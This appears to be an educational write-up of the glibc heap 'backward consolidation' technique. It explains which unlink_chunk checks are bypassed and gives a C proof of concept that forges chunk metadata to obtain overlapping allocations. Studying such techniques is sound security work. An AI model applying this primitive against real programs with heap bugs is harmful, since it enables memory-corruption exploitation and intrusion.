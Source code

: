 ## backward consolidation

Same as [forward consolidation](../forward_consolidation)

**Purpose:** We can have two separate chunks allocated to the same space
**Require:** Have an ability to change the metadata of the allocated chunks
**Mitigations need to bypass:** The malloc consolidates 2 chunks using `malloc_consolidate` function, but before consolidate them, malloc must unlink (use `unlink_chunk`) first. And there are two mitigations inside the `unlink_chunk` that we need to bypass
- [prev_size](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1610-L1611)
- [fd/bk](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1616-L1617)

## POC

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    long *consolidated_chunk, *victim, *chunk;

    consolidated_chunk = malloc(0x80);
    victim = malloc(0x410);
    chunk = malloc(0x10); // Avoid top-chunk consolidate

    /* Setup victim prev_size & size fields */
    victim[-2] = 0x90;
    victim[-1] = 0x420;

    /* Create a FAKE main_arena */
    consolidated_chunk[8] = (long)&consolidated_chunk[-2];
    consolidated_chunk[9] = (long)&consolidated_chunk[-2];

    /* Create a FAKE fd/bk */
    consolidated_chunk[0] = (long)&consolidated_chunk[6];
    consolidated_chunk[1] = (long)&consolidated_chunk[6];

    free(victim); // Triger backward consolidation
    // After this, our victim chunk would be freed, and due to backward consolidation it will be merged with the consolidated_chunk
    // This create an overlapping chunk on a 0x90 (include metadata) chunk
    long *overlaping_chunk = malloc(0x80);
    long *new_chunk = malloc(0x410);

    // Confirm again
    assert(overlaping_chunk == consolidated_chunk);

    return 0;
}
```

